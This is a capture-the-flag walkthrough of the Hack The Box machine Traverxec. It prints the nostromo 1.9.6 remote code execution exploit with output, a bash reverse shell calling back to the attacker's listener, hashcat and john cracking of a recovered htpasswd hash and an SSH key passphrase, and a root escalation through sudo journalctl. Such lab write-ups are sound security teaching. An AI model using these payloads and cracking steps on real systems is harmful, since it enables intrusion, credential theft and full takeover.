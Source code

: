 1,Recon
port scan 
	22/tcp ssh `OpenSSH 7.9p1 Debian 10+deb10u1`
	80/tcp http `tcpwrapped http-server-header: nostromo 1.9.6`
We have the version of this service, so we can check it from exploit-db
`nostromo 1.9.6 - Remote Code Execution`
Very lucky, the best vulnerability for us.
`https://github.com/AnubisSec/CVE-2019-16278.git`
```
python3 nostroSploit.py 10.10.10.165 80                                                             
[+] Connecting to target
[+] Sending malicious payload
HTTP/1.1 200 OK
Date: Sat, 21 Sep 2024 10:44:40 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then we just need to upload the reverse shell and handle it.
```
python3 nostroSploit.py 10.10.10.165 80 "bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'"

nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 59646
bash: cannot set terminal process group (1048): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$
```

Then we need to make a stable shell for us
```
upgrade to PTY
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

Let's enumerate the useful credit to get the user shell.
```
david:x:1000:1000:david,,,:/home/david:/bin/bash
```
By enumerate the file system, we can find a config file `/var/nostromo/conf/nhttpd.conf` and it gives the `htpasswd` position
```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www

/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
Then we can crack it by hashcat:
`hashcat david.hash --user -m 500 /usr/share/wordlists/rockyou.txt`
then we get the password `Nowonly4me`
But we can not use this password to switch david.
The last two options jumped out as interesting. Looking at the man page for nostromo, I see the section about HOMEDIRS:
```
HOMEDIRS
  To serve the home directories of your users via HTTP, enable the homedirs
  option by defining the path in where the home directories are stored,
  normally /home.  To access a users home directory enter a ~ in the URL
  followed by the home directory name like in this example:

        http://www.nazgul.ch/~hacki/

  The content of the home directory is handled exactly the same way as a
  directory in your document root.  If some users don't want that their
  home directory can be accessed via HTTP, they shall remove the world
  readable flag on their home directory and a caller will receive a 403
  Forbidden response.  Also, if basic authentication is enabled, a user can
  create an .htaccess file in his home directory and a caller will need to
  authenticate.

  You can restrict the access within the home directories to a single sub
  directory by defining it via the homedirs_public option.
```

So /homedirs /home points nostromo to the home directories, and then in a users directory, the webroot will be public_www. So http://10.10.10.165/~david will be /home/david/public_www.

I could even use the traversal vulnerability to explore in david’s home directory. Tried a bunch of stuff:
![[Pasted image 20240921071613.png]]

The last test was where it occurred to me that www-data must be able read in this directory, /home/david/public_www. So I went back to my shell, and not only can I get into the directory, but there’s a folder there:
```
www-data@traverxec:/home/david/public_www$ ls -al
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area

And I found the backup-ssh-identity-files.tgz from protected-file-area.
```

If we want to check the file by using `curl` 
```
curl 10.10.10.165/~david/protected-file-area/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>401 Unauthorized</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>401 Unauthorized</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>
```

Remember we have the password before, so let's try it again.
```
curl http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>Index of /david/public_www/protected-file-area/</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>Index of /david/public_www/protected-file-area/</h1>
<hr>
<table cellpadding=2 cellspacing=5>
<tr><td><b>Type</b></td><td><b>Filename</b></td><td><b>Last Modified</b></td><td><b>Size</b></td></tr>
<tr><td><img src="/icons/file.gif" alt="icon"></td><td><a href="backup-ssh-identity-files.tgz">backup-ssh-identity-files.tgz</a></td><td>Fri, 25 Oct 2019 17:02:59 EDT</td><td>1915</td></tr>
</table>
<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html> 
```

That means we successfully login.
`wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz`
Then we can get the backup file and we get the `id_rsa` but sadly we still need to crack the `passphrase`.
```
ssh2john id_rsa > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2024-09-21 07:28) 100.0g/s 14400p/s 14400c/s 14400C/s carolina..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Then we can `hunter` and we successfully login to david shell.

3, shell as root
When we want to check `sudo -l` , it needs us the password of david. But we did not get the right one.
So I would choose another way: upload `pspy64` and check the interesting process.
Very sadly, there is nothing in the background.
Then i would check the `~/david/bin/server-stats.sh`
```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

There is `/usr/bin/sudo` then i would also check the id
```
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

I’ll look up journalctrl on gtfobins, and there is a sudo option. It’s quite short, simply saying:
`sudo journalctl !/bin/sh `

The trick here is that journalctrl will output to stdout if it can fit onto the current page, but into less if it can’t. Since I’m running it with -n 5, that means only five lines come out, so I need to shrink my terminal to smaller than 5 lines, and I’ll get sent into less, still as root.

I’ll start with a small terminal, and run the command as I can as root:
![[Pasted image 20240921074723.png]]
Then we can get shell as root.
This is very tricky and funny/